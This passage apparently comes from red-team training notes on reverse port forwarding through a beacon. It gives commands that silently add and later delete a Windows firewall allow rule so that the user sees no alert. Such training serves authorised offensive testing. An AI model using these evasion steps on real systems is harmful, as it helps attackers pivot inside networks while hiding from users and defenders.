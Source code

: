 ```
PS C:\Users\Administrator> iwr -Uri http://wkstn-2:8080/a

StatusCode        : 200
```

{% hint style="danger" %}
**OPSEC**\
\
When the Windows firewall is enabled, it will prompt the user with an alert when an application attempts to listen on a port that is not explicitly allowed. &#x20;

Allowing access requires local admin privileges and clicking cancel will create an explicit block rule.\
\
![](https://files.cdn.thinkific.com/file_uploads/584845/images/9f7/2d7/24e/alert.png)
{% endhint %}

**You must therefore create an allow rule before running a reverse port forward using either&#x20;**<mark style="color:yellow;">**`netsh`**</mark>**&#x20;or&#x20;**<mark style="color:yellow;">**`New-NetFirewallRule`**</mark>**, as adding and removing rules does not create a visible alert:**

```
beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080
```

Don't be lazy by disabling the firewall entirely.

**You can delete a firewall rule later by its&#x20;**<mark style="color:yellow;">**`DisplayName`**</mark>**:**

```
beacon> powershell Remove-NetFirewallRule -DisplayName "8080-In"
```
